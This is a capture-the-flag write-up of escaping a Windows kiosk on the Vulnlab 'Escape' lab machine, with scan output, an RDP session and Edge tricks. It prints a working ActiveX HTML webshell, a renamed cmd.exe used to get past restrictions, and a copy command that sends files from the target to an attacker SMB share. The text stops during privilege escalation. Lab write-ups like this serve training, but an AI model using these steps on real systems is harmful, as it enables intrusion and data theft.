## Summary

This `easy` rated box focues on a `kiosk escape` on a system with a `korean language pack` installed. Which was quite funny. We abused `Microsoft Edge` with an edited `html` file to gain a simple `webshell` which allowed us to copy a `cmd.exe` to the `Downloads` folder of the default user `KioskUser0`. We executed a `Windows Explorer` from within `Microsoft Edge` and accessed the copied and already to `msedge.exe` renamed file. For `privilege escalation` to `admin` we created and obfuscated a sliver beacon and executed it with `RunAs`. On the newly gained shell as `admin` we checked for vulnerabilities and find out that we had to `bypass UAC`. For this we used `fodhelper.exe` to reuse our `beacon` and gain a shell as `admin` but with `full permissions`.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
	- [Port Scanning](#Port-Scanning)
- [Foothold](#Foothold)
- [Accessing the File System](#Accessing-the-File-System)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Gaining Code Execution](#Gaining-Code-Execution)
- [Privilege Escalation](#Privilege-Escalation)
- [Decrypting the Hash](#Decrypting-the-Hash)
- [Pivoting](#Pivoting)
- [UAC Bypass](#UAC-Bypass)
- [root.txt](#roottxt)

## Reconnaissance

### Port Scanning

`xct` mentioned the open ports already in the `wiki`.

```c
PORT STATE SERVICE
3389/tcp open ms-wbt-server
```

I made an additional scan.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -p3389 10.10.99.129
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-15 13:06 EST
Nmap scan report for 10.10.99.129
Host is up (0.031s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=Escape
| Not valid before: 2024-02-02T11:08:33
|_Not valid after:  2024-08-03T11:08:33
| rdp-ntlm-info: 
|   Target_Name: ESCAPE
|   NetBIOS_Domain_Name: ESCAPE
|   NetBIOS_Computer_Name: ESCAPE
|   DNS_Domain_Name: Escape
|   DNS_Computer_Name: Escape
|   Product_Version: 10.0.19041
|_  System_Time: 2024-02-15T18:07:02+00:00
|_ssl-date: 2024-02-15T18:07:02+00:00; +9s from scanner time.

Host script results:
|_clock-skew: mean: 8s, deviation: 0s, median: 8s

Nmap done: 1 IP address (1 host up) scanned in 5.63 seconds
```

## Foothold

- [https://book.hacktricks.xyz/hardware-physical-access/escaping-from-gui-applications](https://book.hacktricks.xyz/hardware-physical-access/escaping-from-gui-applications)

```c
┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:10.10.99.129 /dynamic-resolution +clipboard /tls-seclevel:0 -sec-nla
[13:23:29:791] [36783:36784] [INFO][com.freerdp.client.x11] - No user name set. - Using login name: kali
[13:23:29:312] [36783:36784] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[13:23:29:313] [36783:36784] [WARN][com.freerdp.crypto] - CN = Escape
[13:23:31:286] [36783:36784] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[13:23:31:286] [36783:36784] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[13:23:31:303] [36783:36784] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[13:23:31:303] [36783:36784] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[13:23:31:303] [36783:36784] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
[13:23:51:897] [36783:36783] [ERROR][com.freerdp.core] - freerdp_abort_connect:freerdp_set_last_error_ex ERRCONNECT_CONNECT_CANCELLED [0x0002000B]
```



| Username | Password |
| ---- | ---- |
| KiosUser0 | - |

## Accessing the File System

I pressed `WIN` and typed `fil` to search the `Internet` for it, which opened a full `Microsoft Edge` window for me.





On a new tab I just accessed `C:\` by typing `C:/` to the address bar.



## user.txt


## Enumeration

We found a `PowerShell Secure String`.



```xml
<!-- Remote Desktop Plus -->

<Data>
	<Profile>
		<ProfileName>admin</ProfileName>
		<UserName>127.0.0.1</UserName>
		<Password>JWqkl6IDfQxXXmiHIKIP8ca0G9XxnWQZgvtPgON2vWc=</Password>
		<Secure>False</Secure>
	</Profile>
</Data>
```

## Gaining Code Execution

- [https://blog.nviso.eu/2022/05/24/breaking-out-of-windows-kiosks-using-only-microsoft-edge/](https://blog.nviso.eu/2022/05/24/breaking-out-of-windows-kiosks-using-only-microsoft-edge/)

In a new browser tab I entered `edge://settings/DefaultBrowser` to `whitelist` a file I was going to drop and to enable the `Internet Explorer Compatibility Mode` for `Edge`.



I utilized the `Downloads` folder for it.

```c
file:///C:/Users/kioskUsers0/Downloads/pwn.html
```



Next a `blue button` popped up which reloads the browser.



Next `yeeb` thankfully got me the tip to open a new `tab` to edit the page with the `Developer Tools`.

Alternatively the shortcut `Ctrl+Shift+i` does the job.



I went back to the blog post and deleted all unnecessary html code.



The payload I entered is copied from the blog post and written down below.

```c
<script>
    function shlExec() {
        var cmd = document.getElementById('cmd').value
        var shell = new ActiveXObject("WScript.Shell");
        try {
            var execOut = shell.Exec("cmd.exe /C \"" + cmd + "\"");
        } catch (e) {
            console.log(e);
        }
 
        var cmdStdOut = execOut.StdOut;
        var out = cmdStdOut.ReadAll();
        alert(out);
    }
</script>
 
<form onsubmit="shlExec()">
    Command: <input id="cmd" name="cmd" type="text">
    <input type="submit">
</form> 
```



Now I pressed `Ctrl+s` and saved the file as `pwn.html` to `C:\Users\kioskUser0\Downloads\`.



After a little bit back and forth with the `Internet Explorer Compatibility Settings`, because I had slightly issues with the installed language pack, I was able to reload the browser and after accessing `C:\Users\kioskUser0\Downloads\pwn.html` I go the `Active X` message shown on the bottom of the page.

we discussed it within the team and the steps are:

1. Set it to the first value
2. Add the full path `C:\Users\kioskUser0\Downloads\pwn.html`
3. Then reload the browser



Next I copied `C:\Windows\System32\cmd.exe` to `C:\Users\kioskUser0\Downloads\` and named it `msedge.exe`.

```
copy C:\Windows\System32\cmd.exe C:\Users\kioskUser0\Downloads\msedge.exe
```

I moved back to the `file explorer tab` and clicked on `msedge.exe` to get a `shell`.

Alternatively it is possible to check the `downloads button` in `Edge` and open a `file explorer` from there.

After double clicking on `msedge.exe` I got rewarded with a nice `shell`.


To get access to `PowerShell`, I copied a `PowerShell` to the `Downloads` directory.

```c
C:\Users\kioskUser0\Downloads>copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

It can be just executed from the command line or the file explorer.



```c
C:\Users\kioskUser0\Downloads>powershell.exe
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\kioskUser0\Downloads>
```

## Privilege Escalation

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Escape/files]
└─$ sudo impacket-smbserver share . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```c
PS C:\Program Files (x86)\Remote Desktop Plus> copy * \\10.8.0.2\share\
```

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Escape/files]
└─$ sudo impacket-smbserver share . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
